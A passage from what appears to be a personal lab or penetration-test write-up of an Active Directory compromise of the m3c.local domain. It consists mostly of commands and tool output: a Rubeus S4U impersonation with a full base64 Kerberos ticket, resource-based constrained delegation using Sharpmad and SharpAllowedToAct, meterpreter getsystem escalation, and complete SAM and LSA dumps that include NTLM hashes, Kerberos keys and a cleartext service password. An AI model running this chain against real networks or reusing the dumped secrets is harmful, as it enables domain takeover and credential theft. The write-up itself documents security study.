1OLAXE0ZFa3KEKH7HDEvr1E4K3CnrTU7amW4+97SfBuP68vzP9XSFELVZ2SGc/3G7GoQY6ZlHFYwpjfVYZXnGhpMrVtu9/KGRl6iUa7Mv293xItOioH/adZ2q/3aIp7NflW7TD6RY+2aOfSEg38FEzM4VksF/74G5pjFKzNys9zlH11ca/4OC/0qcZpyKsG1v9tjCOtnNLX1hOozBS+ogJ6Oz4MMqX9TUcAbzvJdqA7S08dbue3WgSnY8eXhi7pWquUydB/IEjNFJC7y3laqOtnHIlHwYA6b4MIFuJUo0TOKJ8jCv12cq0PRgadcDHni3h/VbIOIkrtZItj1hXjhFo+/oPOTL/TJeXMv4cI/aq3CUPcDpoJRFbB4MvdJAxak6PV1b33YfM5N+MTD8INqxUYzQEKAIE38NElENU80sfizdIi9eP0zVtCWzYdQNpmMIRW90E0p7pw6pjRjmcrKrZDQKgUfVLdc1MINFDqZr6qJy0ykR6X0r3kRRAa1ahF3ZAB2+K2w4I099G9VxXa/sfqbW2Eth7mBKKXigdXr5cQ4MGjgd8wgdygAwIBAKKB1ASB0X2BzjCBy6CByDCBxTCBwqArMCmgAwIBEqEiBCAT7KAi1GVmLgyGBN+KvPEd8B2f4A/4x7yvqdwJBuF+R6ELGwlNM0MuTE9DQUyiFzAVoAMCAQGhDjAMGwpzdmNfYXBhY2hlowcDBQBgoQAApREYDzIwMjQwNjEyMTQ1MzU1WqYRGA8yMDI0MDYxMzAwMDAxOFqnERgPMjAyNDA2MTkxNDAwMThaqAsbCU0zQy5MT0NBTKkeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FM /impersonateuser:Norma.Branham /domain:m3c.local /msdsspn:cifs/m3dc /dc:m3dc.m3c.local /ptt /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'svc_apache@M3C.LOCAL'
[*] Using domain controller: m3dc.m3c.local (10.9.20.10)
[*] Sending S4U2self request to 10.9.20.10:88
[+] S4U2self success!
[*] Got a TGS for 'Norma.Branham' to 'svc_apache@M3C.LOCAL'
[*] base64(ticket.kirbi):

      doIFrDCCBaigAwIBBaEDAgEWooIEvDCCBLhhggS0MIIEsKADAgEFoQsbCU0zQy5MT0NBTKIXMBWgAwIBAaEOMAwbCnN2Y19hcGFjaGWjggSBMIIEfaADAgESoQMCAQKiggRvBIIEaxNOrPDU5Py9NqdligTWP55SanYTY7O3mZU+6O/V9hCzbwYzXOmHEcCrQaP3jhFY9zrk3l+c2OKe5axT7j7jBOKrKHPYmJwheRuPGZf4ONnIeA8aePTaVAsWP7rk3wYmKS2NIbNJ7uEWWE4YIqOVVr85wv349327Ilkt/yZkezJUxn9b4PvX/GlD8Ihj/Xls6QDnR5K/gJLkSJxBR4vn8/m3BaLxZfBvsDqHBj5aYsZIJWOycVLXUGsEvJMtyDXulqxFbq+L0JQN00rgwtmTblPFO1uIJQC3LG0l1msqbdoX/LxM6wmuIZwYxesk6cRMAWq/lUSogUzPK2C0Ua7VwGgd83Y29/ruK3mcsMLfqNHj10YjaTZy14A7doU2iRiRcsYLjbT44tpVpVPTNFcyOZKgY3Rk/Vcs5HLfstpAVpqtMLKIDyVgHGu5r5ySo3BCu79XBChQaAYbtdFzagZinugyn48fUv8l98XlDZHYtI4PAhhmXU1ZmOL2qtr+LxXgv/NPxqMxRQgiXCWykh4AvppimwIGva7vQMlY+aInC/aEjClTe174y8O4YsMFRTQX/HiVBiTC55CnARmsA7hoM+px1nCI3gT+n2UyNwHIA/WnmzAfJ6VUyTofK2kFGH3FJ+xUP5NqStZyFlvzJz0FBNZbGgWGOR9wHMtIpaysrvtEAdbbak/uRrQZGagoM37EjDrs9zhY9BFfabDLjWR6UMwkjTVcUiYp3abZhJ+WuIw2fGXBg5iLQDBGe+Z2SNbLmVsjkuxPFtEbBgAkQWtH8qfoc9FqqFyIRX/EA8s5sCJQP8j9rj2FypNoNkn7jtwXE4IEtx/TSRaSUAAWRI7AHRZjDFB/zgzBcx++am3iaiu+vKOJxjSyAYZgTpn5Wm5OhGcw+1VL0kNNQNNl94b1/A3NcEhhUAG16/78iEQjiCrBeeF59DHb0ObnN2VCOsJEv3A8XvOZ2QmRTVt4NarB5o3m5vjM/hWv+OHKSI/0IYXX7GAwWE6ZmHmYI+qH52aFRbijGNOcnfqhytqpA9rBIy6KcwAuPsHMbEWUCB3sui60mWosPG6HRYAg4j8bTyPxNrSc4XVm39jL8WKiORvhw6DIbkm0rjaoHSavRNZ6qJWEu0wVgK6c29cijyWT7d2pxR+xRMpKP3BTYnaZ35/8nW2bZJbjm4gkV2k9y1XmHy7DePKNoU9lTX44EMVKqcBZ5yFMRJG5UKmOAKnKEuKefA0YVcBCOvUMSLK0Ml2Co2eP5GnGpyzGZL+A90CbPqk1Ox1gW1U6vXvyJWALuyjC489u+xp8YiQDA7HEjWcaUCoAUElhHemXdRtNYYwVevQQ4prdIVZAdpqK+GYeJHCFf6jvP5G9CLVFm5/hH2Q15XkOV1orDW3C2L/swouWXupckRArEGfwKCYcj8GfkwBy5f0vYUaM/3FrX2PL7wkMFUV1cf+dch/m16ONFOcO8LC35zjrD0XbaXK5OG+rVDiWouraY8slWHvN5zGNUKOB2zCB2KADAgEAooHQBIHNfYHKMIHHoIHEMIHBMIG+oCswKaADAgESoSIEIIJIvEDSP6HoqdGyszzdP+0WsBhHhbudse25GMzspJzIoQsbCU0zQy5MT0NBTKIaMBigAwIBCqERMA8bDU5vcm1hLkJyYW5oYW2jBwMFAGChAAClERgPMjAyNDA2MTIxNTA2MzRaphEYDzIwMjQwNjEzMDAwMDE4WqcRGA8yMDI0MDYxOTE0MDAxOFqoCxsJTTNDLkxPQ0FMqRcwFaADAgEBoQ4wDBsKc3ZjX2FwYWNoZQ==

[*] Impersonating user 'Norma.Branham' to target SPN 'cifs/m3dc'
[*] Building S4U2proxy request for service: 'cifs/m3dc'
[*] Using domain controller: m3dc.m3c.local (10.9.20.10)
[*] Sending S4U2proxy request to domain controller 10.9.20.10:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION
```

I think something is off here, so i will try to use the C# of Sharpmad to add a new computer.

```
https://github.com/Kevin-Robertson/Sharpmad
```

And now we should have the fake machine:

And we have it:

```
objectsid                      : {S-1-5-21-340507432-2615605230-720798708-12101}
samaccounttype                 : MACHINE_ACCOUNT
objectguid                     : 7e808712-0d7e-414f-90ad-78a327023dba
useraccountcontrol             : WORKSTATION_TRUST_ACCOUNT
accountexpires                 : NEVER
lastlogon                      : 12/31/1600 7:00:00 PM
pwdlastset                     : 6/12/2024 11:17:09 AM
lastlogoff                     : 12/31/1600 7:00:00 PM
badPasswordTime                : 12/31/1600 7:00:00 PM
name                           : yovecio
distinguishedname              : CN=yovecio,CN=Computers,DC=m3c,DC=local
whencreated                    : 6/12/2024 3:17:09 PM
whenchanged                    : 6/12/2024 3:17:09 PM
samaccountname                 : yovecio$
cn                             : {yovecio}
objectclass                    : {top, person, organizationalPerson, user, computer}
ServicePrincipalName           : RestrictedKrbHost/yovecio
dnshostname                    : yovecio.m3c.local
logoncount                     : 0
codepage                       : 0
objectcategory                 : CN=Computer,CN=Schema,CN=Configuration,DC=m3c,DC=local
iscriticalsystemobject         : False
usnchanged                     : 389562
instancetype                   : 4
badpwdcount                    : 0
usncreated                     : 389560
ms-ds-creatorsid               : {1, 5, 0, 0, 0, 0, 0, 5, 21, 0, 0, 0, 40, 187, 75, 20, 238, 247, 230, 155, 244, 131, 246, 42, 13, 5, 0, 0}
localpolicyflags               : 0
countrycode                    : 0
primarygroupid                 : 515
dscorepropagationdata          : 1/1/1601 12:00:00 AM
```

To allow the permissions we can use another tool in C#:

https://github.com/pkb1s/SharpAllowedToAct

Apparently i could have used this one to do the whole job:

```
C:\Temp>SharpAllowedToAct.exe --ComputerAccountName YOVECIO2 --ComputerPassword yovecio2 --TargetComputer M3DC
SharpAllowedToAct.exe --ComputerAccountName YOVECIO2 --ComputerPassword yovecio2 --TargetComputer M3DC
[+] Domain = m3c.local
[+] Domain Controller = m3dc.m3c.local
[+] New SAMAccountName = YOVECIO2$
[+] Distinguished Name = CN=YOVECIO2,CN=Computers,DC=m3c,DC=local
[+] Machine account YOVECIO2 added
[+] SID of New Computer: S-1-5-21-340507432-2615605230-720798708-12102
[+] Attribute changed successfully
[+] Done!
```

Now the problem is that i don't have a password so I need to do this in Windows. Now we need to use rubeus to get the TGT hash of the new fake pc.

```
C:\Temp>Rubeus.exe hash /password:yovecio2 /user:YOVECIO2$ /domain:m3c.local /nowrap
Rubeus.exe hash /password:yovecio2 /user:YOVECIO2$ /domain:m3c.local /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Calculate Password Hash(es)

[*] Input password             : yovecio2
[*] Input username             : YOVECIO2$
[*] Input domain               : m3c.local
[*] Salt                       : M3C.LOCALhostyovecio2.m3c.local
[*]       rc4_hmac             : FEA5681D7DEDF98A5F1C26D00AAC77AF
[*]       aes128_cts_hmac_sha1 : 039F51E7F5A3AF0E0F214EB892542322
[*]       aes256_cts_hmac_sha1 : 1B846B54360B2879E1330ADF1F3B3EAE0774D42747B49A7B32C6E52E6702EDDA
[*]       des_cbc_md5          : D994D6BFB31919F2
```

&nbsp;

# Next day, new possibilities

So here I talked to anohter guy and apparently originally the service account svc_apache have only "GenericWrite" over the M3DC which makes as a good candidate to write any permission/attribute on that object.

Which consequently makes it possible to write the `msDS-AllowedToActOnBehalfOfOtherIdentity` so we can then proceed with RBCD attacks.

Now here what is Important to mentioning is that all the guides imply that we add a new fakepc so we can set a SPN, but in our case we have already a SPN(svc_apache) so techncally we can just perform the impersonation!

We need first to export the TGT ticket of svc_apache from the WEBAPP server via Ruberus.exe



Next can we covert the ticker from kirbi to CCACHE and import in our session so we don't need the svc_apache creds and we can use `-k -no-pass`.



And now we should be able to check the permisisons via rbdc.py.

EDIT: I was getting the wrong shell via meterpreter as I forgot to change the target of the exploit from Java to Windows(and adapt to a meterpreter Windows session).



And now I can run all commands :D



Now we can get the shell and try to elevate to NTSYSTEM via getsystem -t 6:

```
Background channel 3? [y/N]  y
meterpreter > getsystem -t 6
...got system via technique 6 (Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

And now we have the dump of the credentials baby!

```
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : M3WEBAW
SysKey : 0f5d7a9467c2546531be511c099466af
Local SID : S-1-5-21-4257818120-2842902664-1367163224

SAMKey : 51ddd90c93276eace17940fce7b2d90a

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 171b3704822367a2f33a34c2c522dffe
    lm  - 0: b48bdc0c5cde5c326a8dc702bdd16573
    lm  - 1: 7f0206a79342d5e13702b69248e325fa
    lm  - 2: 5f7f0a9a07265eb3cde32458fac676d9
    lm  - 3: 3afdf0110f10819b741c4ce108669e87
    lm  - 4: a2ce9d4b3cbf3fcff61c7a2511b459dd
    lm  - 5: 09b04aaef68998b7a9657ab5b254aa41
    lm  - 6: e0a39340214afb4d72f1fd571edc2a81
    lm  - 7: ea63873764eae61c61789c39be6d8437
    lm  - 8: a6c84a534e35ba72a4ae24051d0c2b53
    lm  - 9: 2e97679725ee46d0fd165e27db936eb3
    lm  -10: 6a4c64a6b3c69c2297ac675712749de6
    lm  -11: 98aa713aaa424549fed38d99472d008d
    lm  -12: 8ec31cdbb37430b53862204917539bb0
    lm  -13: e713ed596d1115e3284b344559a691ba
    lm  -14: a174233120ce90ec4246295dd877d06e
    lm  -15: d393e2f2f8d40ae54d3119294d1e3c10
    lm  -16: f5d949a79a6c610dfd0dbe157a4296fd
    lm  -17: 22629b0d9e54f90e5ee84c72f5938982
    lm  -18: eb13e0494e596a65530fcbe530acac5e
    lm  -19: 3b5d69cfff86adaea0a64be01fbf0a55
    lm  -20: 5c5296674937c1c02aaefc2747ecf70b
    lm  -21: 86efb3db2c5154d3d36f0cdebaa5c406
    lm  -22: 1940e715d9c1db17b1c262db79c89542
    lm  -23: 6d567beafb47b073bea63cf819055a9c
    ntlm- 0: 171b3704822367a2f33a34c2c522dffe
    ntlm- 1: 31cd320edcd803d36fc59e83d0ed19e0
    ntlm- 2: ccaa9ca52c1637846e799d0587354829
    ntlm- 3: 8680283250050241518e81526744e047
    ntlm- 4: a739fbe07e54fbdf9ef0b7f0fd04dddd
    ntlm- 5: ac96875e2b0b5bca00a9879881cfbb86
    ntlm- 6: 90cbb38b0b4cc284c0c8db4821da8410
    ntlm- 7: 8332d694024769cef93badb93ddbde6d
    ntlm- 8: 4464bfa7e845935389b70fcf3a2f22c9
    ntlm- 9: 04c013dec2a9848e1c1f437be2de4929
    ntlm-10: 40328c76075b4146e4b8718a2a10672c
    ntlm-11: 4442f5a41f9a054dd4523c648ceb6145
    ntlm-12: 8b2351cf10826d62cd418c7a28551b24
    ntlm-13: 26bd099716f91c273ba532f9ab652e5f
    ntlm-14: 2e26a31a1d546e8b89b98c873b555ec3
    ntlm-15: 49f75cb7f86e202acadf12784125f4de
    ntlm-16: cf6dccb708f1f77bb09966b7d1c2bad0
    ntlm-17: 895c68ae70911cad6a9c77659ad02de8
    ntlm-18: 41eb95c9aba707dd086f05cf484bd592
    ntlm-19: d9f10a9d6af63fa65ef6d7eddf164661
    ntlm-20: 37191efda615d8ace03d910eaaa3b2f5
    ntlm-21: 298d8ed2ffe9a6fb7c5c497320ed5e37
    ntlm-22: 587485c33dd4b50df7ec6a39121308f5
    ntlm-23: 7efa411de8dfa455fce36b0ba4b70283

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 48d59a3f887522b7b9b5e3b74d44646d

* Primary:Kerberos-Newer-Keys *
    Default Salt : M3WEBAW.M3C.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 653307540208c935c62578fa0d746e4bd2b496ddd46101afbe541372b6d07786
      aes128_hmac       (4096) : 7513e88a6c21b908b0b385a06bdb9a27
      des_cbc_md5       (4096) : 5e02e9f1c410ce43
    OldCredentials
      aes256_hmac       (4096) : 531ccf611c33b6d416eedcb4a0261bab87a121ca0037bd33dd761d8e530ad8e7
      aes128_hmac       (4096) : 0a14708259fc4767d731d6f3e3c6ff3f
      des_cbc_md5       (4096) : b5f7687c831c3158
    OlderCredentials
      aes256_hmac       (4096) : 81846efa197105571d57023e082fa1288648808a52039c76bdee099de2cc737e
      aes128_hmac       (4096) : 553dfbecc77baa901fa6fdd090669daf
      des_cbc_md5       (4096) : a15e570b92f4dfd3

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : M3WEBAW.M3C.LOCALAdministrator
    Credentials
      des_cbc_md5       : 5e02e9f1c410ce43
    OldCredentials
      des_cbc_md5       : b5f7687c831c3158


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount


meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : M3WEBAW
SysKey : 0f5d7a9467c2546531be511c099466af

Local name : M3WEBAW ( S-1-5-21-4257818120-2842902664-1367163224 )
Domain name : M3C ( S-1-5-21-340507432-2615605230-720798708 )
Domain FQDN : m3c.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {f6ff3cee-589f-54f8-c470-7b1b881f5ba4}
  [00] {f6ff3cee-589f-54f8-c470-7b1b881f5ba4} ee5f029f715830d4c22d82a6839fc4ecbe04ceb988683d3da5d8a0b27068c9e9

Secret  : $MACHINE.ACC
cur/text: R++2=M#ai!6s"54 5$X'"11"=KIppV+xk0UQvm-nA'#O T"mQaM6@8<'mWq4W4gws1Hsn[T0hzn16`!+F)wY/o[WQK/;lG`Zas]pK*uEC?:JfxR^U8QliS [
    NTLM:2e61a0e49c4724aebfd2878d1e612518
    SHA1:c698a14e684b6d4e787edaaf9949ee8594623028
old/text: R++2=M#ai!6s"54 5$X'"11"=KIppV+xk0UQvm-nA'#O T"mQaM6@8<'mWq4W4gws1Hsn[T0hzn16`!+F)wY/o[WQK/;lG`Zas]pK*uEC?:JfxR^U8QliS [
    NTLM:2e61a0e49c4724aebfd2878d1e612518
    SHA1:c698a14e684b6d4e787edaaf9949ee8594623028

Secret  : DefaultPasswordERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO

old/text: 6IVx7cxECM6m57WVjrqfH1gvluKnvN

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 af 5e 76 30 7e 3d c5 fe 25 3e 42 1e 97 2e cc ce 13 9d b4 92 19 7c 9b f3 38 3b f4 e4 c4 ff 85 22 cd ea 06 43 79 ae fd 87 
    full: af5e76307e3dc5fe253e421e972eccce139db492197c9bf3383bf4e4c4ff8522cdea064379aefd87
    m/u : af5e76307e3dc5fe253e421e972eccce139db492 / 197c9bf3383bf4e4c4ff8522cdea064379aefd87
old/hex : 01 00 00 00 2f 59 05 b8 05 d0 98 a6 80 32 79 0c e7 66 88 27 c3 8c 1b d8 05 82 23 cf 64 4a 39 c1 3b f2 2b 6f 5b 58 aa 07 aa eb b8 9b 
    full: 2f5905b805d098a68032790ce7668827c38c1bd8058223cf644a39c13bf22b6f5b58aa07aaebb89b
    m/u : 2f5905b805d098a68032790ce7668827c38c1bd8 / 058223cf644a39c13bf22b6f5b58aa07aaebb89b

Secret  : NL$KM
cur/hex : 26 cf be 34 e8 89 95 fd 6d 9b d7 be 32 fd 72 3c 78 c4 81 ec ff 96 71 f8 c3 5c 38 e5 1b 86 49 d8 4a 78 8d fd 45 d4 5b de 6f 95 34 b2 e3 7e 78 99 9c 54 89 69 41 5a ea b3 4c 60 95 ad e9 0c e9 35 
old/hex : 26 cf be 34 e8 89 95 fd 6d 9b d7 be 32 fd 72 3c 78 c4 81 ec ff 96 71 f8 c3 5c 38 e5 1b 86 49 d8 4a 78 8d fd 45 d4 5b de 6f 95 34 b2 e3 7e 78 99 9c 54 89 69 41 5a ea b3 4c 60 95 ad e9 0c e9 35 

Secret  : _SC_ActiveMQ / service 'ActiveMQ' with username : m3c.local\svc_apache
cur/text: ef8Mahvae2j2


meterpreter >
```

Now knowing these informations I feel confortable I can move on to DC.

&nbsp;